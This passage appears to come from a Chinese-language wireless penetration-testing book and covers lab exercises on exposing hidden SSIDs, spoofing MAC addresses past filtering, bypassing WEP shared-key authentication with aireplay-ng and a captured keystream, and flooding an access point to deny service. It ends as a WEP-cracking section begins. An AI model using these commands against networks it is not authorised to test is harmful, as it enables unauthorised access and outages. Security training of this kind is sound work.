   

尽管 SSID 被隐藏且未被广播，但每当合法客户端尝试连接到接入点时，它们都会交换 probe request 和 probe response 数据包。这些数据包包含接入点的 SSID。由于这些数据包未加密，因此可以从空中非常容易地嗅探到，从而发现 SSID。

我们将在后面的章节中介绍将 probe request 用于跟踪等其他目的。在许多情况下，所有客户端可能已经连接到接入点，Wireshark 跟踪记录中可能没有可用的 probe request/response 数据包。在这种情况下，我们可以通过在空中发送伪造的取消认证数据包来强制客户端与接入点断开连接。这些数据包将迫使客户端重新连接到接入点，从而暴露 SSID。

## MAC 过滤

MAC 过滤是一种历史悠久的认证和授权技术，起源于有线网络世界。不幸的是，它在无线网络世界中惨遭失败。

其基本思想是根据客户端的 MAC 地址进行认证。MAC 过滤是分配给网络接口的识别码；路由器能够检查此代码并将其与已批准的 MAC 列表进行比较。这个允许的 MAC 地址列表将由网络管理员维护并输入到接入点中。现在，让我们来看看绕过 MAC 过滤是多么容易。

## 击败 MAC 过滤

让我们按照以下步骤开始操作：

1. 首先配置我们的接入点使用 MAC 过滤，然后添加受害者笔记本电脑的客户端 MAC 地址。我路由器上的设置页面如下所示：

   

2. 启用 MAC 过滤后，只有允许的 MAC 地址才能成功与接入点认证。如果我们尝试从一台 MAC 地址不在白名单中的机器连接到接入点，连接将会失败。

3. 在底层，接入点正在向客户端发送认证失败消息。数据包跟踪类似于以下内容：

   

4. 为了击败 MAC 过滤，我们可以使用 airodump-ng 来查找连接到接入点的客户端的 MAC 地址。我们可以通过发出 `airodump-ng -c 11 -a --bssid <mac> mon0` 命令来实现。通过指定 bssid 命令，我们将只监控我们感兴趣的接入点。`-c 11` 命令将频道设置为接入点所在的 11 频道。`-a` 命令确保在 airodump-ng 输出的客户端部分中，只显示与接入点关联并连接的客户端。这将显示与该接入点关联的所有客户端 MAC 地址：

   

5. 一旦我们找到白名单中客户端的 MAC 地址，我们就可以使用 Kali 自带的 **macchanger** 工具伪造该客户端的 MAC 地址。你可以使用 `macchanger -m <mac> wlan0` 命令来完成此操作。你用 `-m` 命令选项指定的 MAC 地址就是 wlan0 接口的新伪造 MAC 地址：

   

6. 正如你清楚看到的，伪造白名单客户端的 MAC 地址后，我们现在能够连接到接入点了。

## 开放认证

开放认证（Open Authentication）这个术语几乎是一个误称，因为它实际上根本不提供任何认证。当接入点配置为使用开放认证时，它将成功认证所有连接到它的客户端。

现在，我们将进行一个练习，使用开放认证来认证并连接到接入点。

## 绕过开放认证

现在让我们来看看如何绕过开放认证：

1. 我们将首先设置我们的实验接入点 Wireless Lab 使用开放认证。在我的接入点上，只需将**安全**模式设置为**禁用安全**即可完成：

   

2. 然后我们使用 `iwconfig wlan0 essid Wireless Lab` 命令连接到该接入点，并验证连接是否成功以及我们是否已连接到接入点。

3. 请注意，我们无需提供任何用户名、密码或口令即可通过开放认证。


## 共享密钥认证
共享密钥认证使用共享密钥（如WEP密钥）对客户端进行认证。确切的信息交换过程如下图所示：

无线客户端向接入点发送认证请求，接入点会回复一个质询。客户端现在需要使用共享密钥加密该质询，再发回给接入点，接入点会解密该内容以检查是否能还原原始质询文本。如果还原成功，则客户端认证成功；如果失败，接入点会发送认证失败的消息。
这里存在的安全问题是，攻击者通过嗅探空中数据包被动监听整个通信过程，能够同时获取明文质询和加密后的质询。攻击者可以对两者执行异或（XOR）操作来获取密钥流。该密钥流可用于加密接入点后续发送的任意质询，无需知晓实际密钥即可完成。
最常见的共享认证形式被称为**WEP（有线等效隐私）**。它容易被破解，多年来已开发出大量工具来辅助破解WEP网络。我们将学习如何嗅探空中数据包以获取质询和加密后的质询，提取密钥流，并利用它在无需共享密钥的情况下向接入点发起认证。

## 绕过共享密钥认证
绕过共享密钥认证比之前的练习难度更高，请仔细按照以下步骤操作：
1. 首先为我们的无线实验网配置共享认证。我已在接入点上完成配置：将安全模式设为**WEP**，认证方式设为**共享密钥**：

2. 现在使用步骤1中设置的共享密钥，将合法客户端连接至该网络。
3. 为绕过共享密钥认证，我们首先需要开始嗅探接入点与客户端之间的数据包。同时，我们也需要记录整个共享认证的交换过程。为此，我们使用airodump-ng工具，执行`airodump-ng mon0 -c 11 --bssid <mac> -w keystream`命令。其中`-w`选项是本次新增的，它要求Airodump-NG将数据包存储到以“keystream”为前缀命名的文件中。建议将不同会话的抓包数据存储到不同文件中，这样可以在抓包收集完成很久之后仍能对数据进行分析：
| BSSID | 信号强度 | 接收质量 | 信标帧数 | 数据帧数 | 每秒帧数 | 信道 | 速率 | 加密方式 | 加密算法 | 认证方式 | 扩展 |
|-------|-----|-----|---------|-------|-----|----|----|-----|--------|------|---|
| 80:1F:02:8F:34:D5 | 0 | 100 | 32 | 0 | 0 | 3 | 54 | WEP | WEP | W | |
| BSSID | 客户端MAC | 信号强度 | 速率 | 丢包数 | 总帧数 | 探测帧 |
|-------|---------|-----|------|------|--------|--------|
4. 我们可以等待合法客户端连接到接入点，也可以使用之前用过的反认证技术强制客户端重连。一旦客户端连接且共享密钥认证成功，airodump-ng会自动通过嗅探空中数据包捕获该交换过程。捕获成功的标志是AUTH列显示为**WEP**。
5. 捕获到的密钥流会存储在当前目录下，文件名以“keystream”为前缀。我这里的文件名为keystream-01-00-21-91-D2-8E-25.xor。
6. 为了伪造共享密钥认证，我们将使用aireplay-ng工具。执行以下命令：`aireplay-ng -1 0 -e "Wireless Lab" -y keystream-01-00-21-91-D2-8E-25.xor -a <mac> -h AA:AA:AA:AA:AA:AA mon0`。该aireplay-ng命令会使用步骤5中提取的密钥流，尝试向SSID为Wireless Lab、MAC地址为00:21:91:D2:8E:25的接入点发起认证，并使用任意客户端MAC地址AA:AA:AA:AA:AA:AA。
启动**Wireshark**，应用`wlan.addr == AA:AA:AA:AA:AA:AA`过滤器嗅探所有感兴趣的数据包。我们可以通过Wireshark验证结果，你会在Wireshark界面看到一条跟踪记录，如下图所示：

7. 第一个数据包是aireplay-ng工具向接入点发送的认证请求：

8. 第二个数据包是接入点向客户端发送的质询文本，如下图所示：

9. 第三个数据包中，该工具向接入点发送加密后的质询：

10. 由于`aireplay-ng`工具使用了推导出的密钥流进行加密，因此认证成功，接入点在第四个数据包中发送成功消息：

11. 认证成功后，该工具会伪造与接入点的关联请求，该操作同样会成功：

12. 如果你查看接入点管理界面的无线日志，现在应该能看到一个MAC地址为AA:AA:AA:AA:AA:AA的无线客户端已连接。接入点存在最大客户端连接数限制，达到上限后会拒绝新的连接请求。通过编写aireplay-ng的简单封装脚本，可以实现自动化操作，向接入点发送来自随机MAC地址的数百个连接请求。这将耗尽接入点的内部表项，一旦达到最大客户端数，接入点将停止接受新的连接。这就是典型的**拒绝服务（DoS）**攻击，可导致路由器重启或功能异常，使得所有无线客户端断开连接，无法使用授权网络。你可以尝试验证这一效果！

## **小测 – WLAN认证**
**Q1.** 如何强制无线客户端重新连接到接入点？
- 1. 发送反认证数据包。
- 2. 重启客户端。
- 3. 重启接入点。
- 4. 以上所有选项。
**Q2.** 开放认证的作用是什么？
- 1. 提供可靠的安全性。
- 2. 不提供任何安全性。
- 3. 需要使用加密机制。
- 4. 以上都不对。
**Q3.** 破解共享密钥认证的原理是什么？
- 1. 从数据包中推导出密钥流。
- 2. 推导出加密密钥。
- 3. 向接入点发送反认证数据包。
- 4. 重启接入点。

## **总结**
本章我们学习了WLAN认证。隐藏SSID是一种非安全特性，很容易被破解。MAC地址过滤无法提供任何安全性，因为无线数据包中的MAC地址可以被嗅探获取，这是因为数据包中的MAC地址是未加密的。开放认证完全不提供真正的认证功能。共享密钥认证的破解难度稍高，但在合适的工具辅助下，我们可以推导出密钥和密钥流，利用它可以应答接入点发送的所有后续质询，最终结果是我们无需知晓实际密钥即可完成认证。

## 第4章：WLAN加密缺陷
即便初衷良好，未来也总是充满不确定性。WLAN委员会设计了WEP和WPA作为无懈可击的加密机制，但随着时间推移，这两种机制都存在已被公开并在现实世界中被广泛利用的缺陷。WLAN加密机制存在长期的密码学攻击漏洞历史。最早是2000年代初推出的WEP，最终被完全破解。近年来，攻击逐渐将目标转向WPA。尽管目前尚无能在所有通用条件下破解WPA的公开攻击方法，但在特定场景下存在可行的攻击方式。
本章我们将学习以下主题：
- WLAN中的不同加密方案
- 破解WEP加密
- 破解WPA加密

### WLAN加密
WLAN通过空中接口传输数据，因此天然具有保护数据保密性的需求，而加密是实现这一目标的最佳方式。WLAN委员会（IEEE 802.11）制定了以下数据加密协议：
- 有线等效隐私（WEP）
- Wi-Fi保护访问（WPA）
- Wi-Fi保护访问第2版（WPAv2）
本章我们将逐一研究这些加密协议，并演示针对它们的各类攻击。


## WEP 加密
WEP协议早在2000年就被发现存在缺陷，但令人惊讶的是，它至今仍被广泛使用，且许多接入点在出厂时仍默认开启WEP功能。
WEP存在大量密码学漏洞，这些漏洞由Walker、Arbaugh、Fluhrer、Martin、Shamir、KoreK及诸多其他研究者发现。
从密码学角度评估WEP已超出本书范围，因为这涉及对复杂数学原理的理解。
在本节中，我们将了解如何使用**Kali**平台上的现成工具破解WEP加密。这包括完整的**aircrack-ng**工具套件——**airmon-ng**、**aireplay-ng**、**airodump-ng**、**aircrack-ng**及其他相关工具。
WEP的根本缺陷在于其使用了**RC4**算法以及每2²⁴帧就会循环复用的短IV（初始化向量）。虽然这个数值本身很大，但每5000个数据包中就有50%的概率会出现4次IV复用。为了利用这一特性，我们会生成大量流量，从而提高IV被复用的概率，进而对比用相同IV和密钥加密的两份密文。现在我们先在测试实验室中配置WEP，看看如何对其进行破解。

## 破解WEP加密
- 1. 首先连接至我们的接入点Wireless Lab，进入处理无线加密机制的设置区域：
